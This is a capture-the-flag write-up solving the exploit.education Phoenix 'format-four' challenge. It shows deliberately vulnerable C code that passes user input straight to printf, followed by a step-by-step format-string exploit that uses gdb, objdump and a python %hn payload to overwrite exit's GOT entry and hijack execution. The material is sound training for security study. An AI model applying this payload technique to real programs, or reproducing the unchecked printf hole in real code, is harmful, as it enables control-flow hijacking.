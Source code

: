 # Format Four

```c
/*
 * phoenix/format-four, by https://exploit.education
 *
 * Can you affect code execution? Once you've got congratulations() to
 * execute, can you then execute your own shell code?
 *
 * Did you get a hair cut?
 * No, I got all of them cut.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

void bounce(char *str) {
  printf(str);
  exit(0);
}

void congratulations() {
  printf("Well done, you're redirected code execution!\n");
  exit(0);
}

int main(int argc, char **argv) {
  char buf[4096];

  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);
}
```

## Solution

1. The vulnerability is the same as [format_three](format_three.md), but this time we must write a specific value.
2. `` python -c 'print("AAAA" + "%p_"*15)' | /opt/phoenix/i486/format-four ``
    - ![addrs](img/addrs.png)
    - Our string is the 12th argument
3. Finding what pointer to put as the string:
    - `gdb /opt/phoenix/i486/format-four`
    - We want to overwrite the location holding the pointer to `exit(0)`.
    - `disass bounce`
    - `b *bounce+23`
    - ![](img/disass.png)
    - `0x08048330` is the address in the plt. We need the actual address in the got.plt
    - ![](img/exit%40got_plt.png)
    - `0x080497e4` is the address of the exit function call in the got.plt
4. the value to write:
    - `objdump -t /opt/phoenix/i486/format-four | grep "congratulations"`
    - ![](img/congrats_val.png)
5. So now we have everything we need to write `0x08048503` to the address `0x080497e4`.
6. Writing `0x08048503` characters to stdout for our `%n` operation could take awhile, so it's easier to break this out into two writes. One for the first 2 bytes and one for the second 2 bytes. We can do this with the `%hn` operator writing a half word.
    - `0x0804` = 2052
    - `0x8503` = 34051
7. `` python -c 'print("\xe6\x97\x04\x08AAAA\xe4\x97\x04\x08" + "%200x"*10 + "%40x" + "%hn" + "%31999x" + "%hn")' | /opt/phoenix/i486/format-four ``
    - `\xe6\x97\x04\x08` is the target address +2 bytes i.e. the 2 most significant bytes in the target.
    - `AAAA` This is padding because since we are doing two writes and they aren't the same value we need to make space for a parameter to increase the number of bytes we are writing.
    - `\xe4\x97\x04\x08` The target address.
    - `"%200x"*10 + "%40x"` = 200*10 + 40 = 2040. Since we already wrote 12 bytes with the 3 previous bullets we get 2040 +12 = 2052. i.e. the number of bytes we want to write for to get `0x0804`
    - `"%hn"` writes the value 2052 to `\xe6\x97\x04\x08`
    - `"%31999x"` adds 31999 to 2052 to make 34051. i.e. the number of bytes we need to write to make `0x8503`.
    - `"%hn"` writes that value `0x8503` to the address `\xe4\x97\x04\x08`.
8. ![](img/success2.png)